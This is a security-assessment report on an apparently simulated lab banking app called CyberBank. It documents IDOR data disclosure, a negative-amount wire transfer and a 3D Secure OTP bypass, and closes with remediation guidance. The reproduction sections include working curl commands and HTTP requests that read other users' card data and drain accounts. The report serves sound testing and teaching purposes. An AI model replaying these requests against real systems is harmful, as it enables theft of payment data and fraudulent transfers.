



# CyberBank Web Application Security Assessment

**Target:** `http://web0x06.hbtn`
**Assessment type:** Authenticated black-box testing
**Date:** August 14, 2026
**Tester account:** `yosri` (Yosri Musk, customer ID `377fb5de49b34cc09aacbb19e7f9fbae`)

---

## 1. Introduction

CyberBank is a simulated online banking application that allows customers to view accounts, manage payment cards, send wire transfers to contacts, and purchase a subscription upgrade using a stored card with 3D Secure verification.

The purpose of this assessment was to evaluate the application's authorization controls. Testing was performed with a single low-privilege customer account to determine whether that account could read or modify data belonging to other customers.

The assessment found that the application consistently fails to verify object ownership on its API endpoints. A logged-in user can read any customer's profile, any account balance, and any card record simply by supplying the corresponding object identifier. Two further flaws allow arbitrary balance manipulation and bypass of the 3D Secure payment verification.

**Result: 5 findings, 4 rated Critical or High.**

---

## 2. Methodology

Testing followed a manual, request-driven approach:

1. **Baseline capture.** Normal application workflows (wire transfer, account view, subscription upgrade) were performed through the browser with Firefox Developer Tools open, recording each XHR request and response.
2. **Identifier harvesting.** Object identifiers exposed in API responses were collected and catalogued.
3. **Authorization testing.** Captured requests were replayed with substituted identifiers to test whether the server enforced ownership.
4. **Parameter manipulation.** Request bodies were modified to test input validation, including negative values and mismatched identifiers.
5. **Client-side review.** Minified JavaScript bundles were downloaded and inspected to recover undocumented endpoints and request schemas.

**Tools used:**

- Firefox Developer Tools (Network panel, Edit and Resend, Console, Storage)
- Burp Suite Community (proxy interception and request replay)
- `curl` for scripted request replay and chaining
- `grep` for static analysis of JavaScript bundles

---

## 3. Vulnerability Details

### 3.1 IDOR: Customer Profile Disclosure

| | |
|---|---|
| **Severity** | High |
| **Endpoint** | `GET /api/customer/info/{customer_id}` |
| **CWE** | CWE-639: Authorization Bypass Through User-Controlled Key |

**Description**

The customer profile endpoint returns the full record for any customer ID passed in the URL path. The server authenticates the session but never checks that the requested customer ID belongs to the session owner.

**Impact**

Any authenticated user can enumerate and read every customer record in the system, including full name, username, total balance, income, expenses, and the list of account IDs owned by that customer. The returned account IDs are the input required to exploit finding 3.2, so this flaw is also the entry point to a wider data breach.

**Reproduction**

1. Log in as a normal customer and send a wire transfer to any contact.
2. Observe the transfer response in the Network panel. It discloses `receiver_id`, the recipient's internal customer ID.
3. Replay a GET request to `/api/customer/info/8e747874d34241a2b6f836e40d897b3f` using the same session cookie.
4. The full profile of an unrelated customer is returned.

**Evidence**

The wire transfer response leaks the recipient's customer ID:

```json
{
  "message": {
    "amount": 50,
    "merchant_name": "Robert Martinez",
    "method": "wire",
    "receiver_id": "8e747874d34241a2b6f836e40d897b3f",
    "receiver_payment_id": "6ef1f13ab99747b48082a421216eb260",
    "sender_id": "377fb5de49b34cc09aacbb19e7f9fbae",
    "status": "completed"
  },
  "status": "success"
}
```

Replaying that ID against the profile endpoint returns another customer's record:

```bash
curl -s -b "$COOKIE" \
  http://web0x06.hbtn/api/customer/info/8e747874d34241a2b6f836e40d897b3f
```

```json
{
  "message": {
    "accounts_id": ["20f0d5c1fb084de2a65cf7a2609c7d8f",
                    "6ef1f13ab99747b48082a421216eb260"],
    "expenses": 9102.4,
    "firstname": "Robert",
    "id": "8e747874d34241a2b6f836e40d897b3f",
    "income": 7964.6,
    "lastname": "Martinez",
    "total_balance": 1137.8,
    "username": "robert.martinez"
  },
  "status": "success"
}
```



---

### 3.2 IDOR: Account Balance and Card Disclosure

| | |
|---|---|
| **Severity** | High |
| **Endpoints** | `GET /api/accounts/info/{account_id}`, `GET /api/cards/info/{card_id}` |
| **CWE** | CWE-639 |

**Description**

The account and card endpoints behave identically to the profile endpoint. Any account ID or card ID returns its full record regardless of who owns it.

**Impact**

This is the most severe of the disclosure findings. The card endpoint returns **full unmasked card data**: the complete 16-digit PAN, expiry month and year, and CVV. An attacker with any valid session can harvest complete payment card details for every customer in the bank, which is sufficient for card-not-present fraud outside the application entirely.

The account endpoint additionally discloses balances, account numbers, and routing numbers, which feed directly into finding 3.3.

**Reproduction**

1. Obtain a victim's account IDs via finding 3.1.
2. Request `/api/accounts/info/20f0d5c1fb084de2a65cf7a2609c7d8f`.
3. Note the `cards_id` array in the response.
4. Request `/api/cards/info/9bc36ef18f1244ceb7c20c6b8b002486`.

**Evidence**

Account record for an unrelated customer:

```json
{
  "message": {
    "balance": 108.0,
    "cards_id": ["9bc36ef18f1244ceb7c20c6b8b002486"],
    "customer_id": "8e747874d34241a2b6f836e40d897b3f",
    "id": "20f0d5c1fb084de2a65cf7a2609c7d8f",
    "number": "102705616631",
    "routing": "106190007"
  },
  "status": "success"
}
```

Card record for the same customer, with PAN, expiry, and CVV in cleartext:

```json
{
  "message": {
    "account_id": "20f0d5c1fb084de2a65cf7a2609c7d8f",
    "customer_id": "8e747874d34241a2b6f836e40d897b3f",
    "cvv": "371",
    "e_month": "02",
    "e_year": "2027",
    "firstname": "Robert",
    "lastname": "Martinez",
    "number": "4000619000096337",
    "otp": "*****",
    "state": "declined"
  },
  "status": "success"
}
```



---

### 3.3 Negative Amount Wire Transfer

| | |
|---|---|
| **Severity** | Critical |
| **Endpoint** | `POST /api/accounts/transfer_to/{account_id}` |
| **CWE** | CWE-20: Improper Input Validation |

**Description**

The wire transfer endpoint accepts a negative value in the `amount` field. The server applies the arithmetic without validating the sign, so a negative transfer reverses the direction of funds: the destination account is debited and the sender's account is credited.

**Impact**

This is a direct financial loss. An attacker can drain any account whose ID they know, which combined with finding 3.1 means every account in the bank. In testing, a single request raised the tester's balance from roughly $2,400 to $12,408.40. Repeated requests raised it above $1,100,000, so there is no cumulative cap.

Note that the endpoint also does not verify that the destination account belongs to one of the sender's registered contacts, and the amount is not checked against the source account's available balance.

**Reproduction**

1. Obtain a victim account ID via finding 3.1.
2. Capture a legitimate wire transfer request in the Network panel.
3. Use Edit and Resend to change `amount` to a negative value.
4. Send the request and re-read the profile endpoint to confirm the balance change.

**Evidence**

```http
POST /api/accounts/transfer_to/20f0d5c1fb084de2a65cf7a2609c7d8f HTTP/1.1
Host: web0x06.hbtn
Content-Type: application/json
Cookie: session=...

{"amount":-10000,"raison":"same","account_id":"e53d807bf8c847f1ac8110755e0b24c2","routing":"106190006","number":"101524971422"}
```

Resulting profile, showing `total_balance` inflated to 12408.4:

```json
{
  "message": {
    "firstname": "Yosri",
    "id": "377fb5de49b34cc09aacbb19e7f9fbae",
    "total_balance": 12408.4,
    "username": "yosri"
  },
  "status": "success"
}
```



---

### 3.4 3D Secure Verification Bypass

| | |
|---|---|
| **Severity** | Critical |
| **Endpoints** | `POST /api/cards/init_payment`, `POST /api/cards/confirm_payment/{transaction_id}` |
| **CWE** | CWE-287: Improper Authentication |

**Description**

The subscription payment flow is split into two requests. `init_payment` creates a transaction and issues a one-time 3D Secure code. `confirm_payment` validates that code and completes the charge.

Two design flaws break the verification:

1. **The OTP is returned to the client.** The `init_payment` response contains the plaintext code, which the front end writes to `localStorage` and pre-fills into the verification input. The code is never delivered out of band to the cardholder.
2. **The OTP is validated against a client-supplied card number.** The `confirm_payment` body carries a `number` field. The server uses that value to select which card record to check the code against, rather than reading the card already bound to the transaction.

**Impact**

3D Secure exists to prove that the person completing a transaction controls the card. Because the code is handed to the client in the API response, that proof is worthless: any party who can reach `init_payment` already holds the verification code. The second flaw compounds this by letting the request itself choose which card record the code is validated against, decoupling verification from the transaction.

**Reproduction**

1. Submit the upgrade form at `/upgrade` and capture `POST /api/cards/init_payment`.
2. Observe that the response contains the transaction ID, and that the OTP is retrievable from the client (`localStorage.getItem("otp")`, or the pre-filled input on `/confirmation`).
3. Create a second, independent transaction via `curl`.
4. Submit the code captured in step 2 against the transaction from step 3.
5. The payment is confirmed despite the code and the transaction originating from separate flows.

**Evidence**

Client-side code showing the OTP read from local storage and rendered into the form:

```javascript
let P = localStorage.getItem("otp");
P = P.replace(/"/g, "");
```

The confirmation request, which sends only the code and a card number:

```javascript
const t = JSON.stringify({ otp: e.otp, number: y.number });
let s = localStorage.getItem("transaction");
fetch(`/api/cards/confirm_payment/${s}`, { method: "POST", ... })
```

Confirmation succeeding with a code carried over from a different transaction:

```bash
curl -s -X POST "http://web0x06.hbtn/api/cards/confirm_payment/$TX" \
  -H 'Content-Type: application/json' -b "$COOKIE" \
  -d '{"otp":"30299","number":"4000619000054533"}'
```

```json
{
  "message": {
    "amount": 9.99,
    "merchant_name": "DexterShield ltd",
    "method": "card",
    "raison": "CyberBank Upgrade",
    "sender_payment_id": "fed8fdc701404544b40932038aaa4bdc",
    "status": "confirmed"
  },
  "status": "success"
}
```

---

## 4. Additional Findings

### 4.1 Unhandled Exception Reveals Authorization Boundary

| | |
|---|---|
| **Severity** | Low |
| **Endpoint** | `POST /api/cards/init_payment` |
| **CWE** | CWE-755: Improper Handling of Exceptional Conditions |

**Description**

`init_payment` is the one endpoint tested that does enforce ownership: submitting another customer's card details fails. However, it fails by returning HTTP 500 rather than a 403. The lookup returns no record and the code then operates on that empty result, raising an unhandled exception.

The same 500 occurs on a legitimate request when the submitted cardholder name does not match the stored record exactly, including case. The stored value `Yosri` succeeds where `yosri` fails.

**Impact**

Two issues. First, the difference between a 500 and a 200 is a reliable oracle for whether a given card belongs to the current session, which supports card enumeration. Second, unhandled exceptions in a payment path risk leaking stack traces or internal detail if debug mode is ever enabled in production, and indicate the error path was not considered during development.

**Reproduction**

```bash
curl -s -i -X POST 'http://web0x06.hbtn/api/cards/init_payment' \
  -H 'Content-Type: application/json' -b "$COOKIE" \
  -d '{"firstname":"Robert","lastname":"Martinez","number":"4000619000096337","e_month":"02","e_year":"2027","cvv":"371","amount":9.99}'
```

Returns `HTTP/1.1 500 INTERNAL SERVER ERROR`.

### 4.2 Undocumented Endpoints Exposed in Client Bundles

Static analysis of the front end recovered API routes not referenced anywhere in the visible UI:

```bash
curl -s http://web0x06.hbtn/static/routes/otp-C8QH3EUU.js -o otp.js
grep -oE 'api/[A-Za-z0-9_/]+' otp.js | sort -u
```

```
api/accounts/info
api/cards/confirm_payment/
api/cards/info
api/customer/info/me
```

This is not a vulnerability in itself, since client code is always readable. It is noted because it materially reduced the effort required to discover the endpoints above, and because it demonstrates that obscurity provides no protection where authorization checks are absent.

---

## 5. Recommendations

### Priority 1: Enforce object-level authorization (findings 3.1, 3.2)

Every endpoint that accepts an object identifier must verify that the authenticated session owns that object before returning or modifying it. A single shared authorization helper, applied at the route layer rather than per handler, prevents new endpoints from reintroducing the flaw.

Specific measures:

- Resolve the customer ID from the session, never from the request path.
- Provide `/api/customer/info/me` style self-referencing routes and remove ID-in-path variants where a self lookup is sufficient.
- Return 403 or 404 uniformly for unauthorized objects, so responses do not distinguish "not yours" from "does not exist".
- Consider replacing sequential or predictable identifiers with unguessable UUIDs as defence in depth, though this is not a substitute for authorization checks.

### Priority 2: Never return full card data (finding 3.2)

CVV must never be stored after authorization, per PCI DSS requirement 3.2. PAN must be masked in all API responses, exposing at most the last four digits. Card records should be retrievable only by their owner, and only in masked form.

### Priority 3: Validate transaction inputs server side (finding 3.3)

- Reject any `amount` that is not a positive number, at the schema layer before business logic runs.
- Verify the source account belongs to the authenticated customer.
- Verify the destination is a registered contact of that customer.
- Verify sufficient available balance before applying the debit.
- Apply all four checks server side. Client-side validation on the transfer form is not a control.

### Priority 4: Rebuild the 3D Secure flow (finding 3.4)

- Never return the OTP in any API response. Deliver it out of band, by SMS or email, to contact details held on the account record.
- Bind the OTP to the transaction server side. `confirm_payment` should read the card from the stored transaction and ignore any card identifier in the request body.
- Expire codes after a short window, five minutes or less, and invalidate them on first use.
- Rate limit confirmation attempts per transaction and lock the transaction after a small number of failures. A five-digit code is brute-forceable in 100,000 attempts without a lockout.

### Priority 5: Handle errors correctly (finding 4.1)

Return 403 for authorization failures and 400 for malformed input. Catch lookup failures explicitly rather than allowing exceptions to propagate. Confirm that debug mode is disabled in all non-development environments. Normalise case on name comparisons, or drop the name from the lookup key entirely, since the card ID already identifies the record.

---

## 6. Conclusion

CyberBank's API authenticates sessions but does not authorise access to individual objects. The same root cause, a missing ownership check, appears independently across the customer, account, and card endpoints. In combination with a missing sign check on transfer amounts and a 3D Secure implementation that hands the verification code to the client, an attacker holding any single valid account can read every customer's personal and payment data, drain arbitrary accounts, and complete card payments without genuine verification.

The exposure of full PAN, expiry, and CVV is particularly serious because the harm extends beyond this application. Those details are usable for fraud anywhere card-not-present transactions are accepted, and no fix applied to CyberBank later will recover data already harvested.

None of these flaws required specialised tooling. Every finding was reached by replaying a legitimate request with one value changed. That low barrier, combined with the financial and regulatory exposure, makes remediation of the authorization layer urgent.

---

## 7. References

- OWASP Top 10:2021, A01: Broken Access Control: https://owasp.org/Top10/A01_2021-Broken_Access_Control/
- OWASP API Security Top 10, API1:2023 Broken Object Level Authorization: https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/
- OWASP Web Security Testing Guide, Testing for IDOR: https://owasp.org/www-project-web-security-testing-guide/
- CWE-639: Authorization Bypass Through User-Controlled Key: https://cwe.mitre.org/data/definitions/639.html
- CWE-20: Improper Input Validation: https://cwe.mitre.org/data/definitions/20.html
- PCI DSS v4.0, Requirement 3: Protect Stored Account Data
- Tools: Burp Suite Community Edition, Firefox Developer Tools, curl

---

## Appendix: Screenshots

| File | Finding |
|---|---|
| `screenshots/task-0.png` | 3.1 Customer profile disclosure |
| `screenshots/task-1.png` | 3.2 Account and card disclosure |
| `screenshots/task-2.png` | 3.3 Negative amount wire transfer |
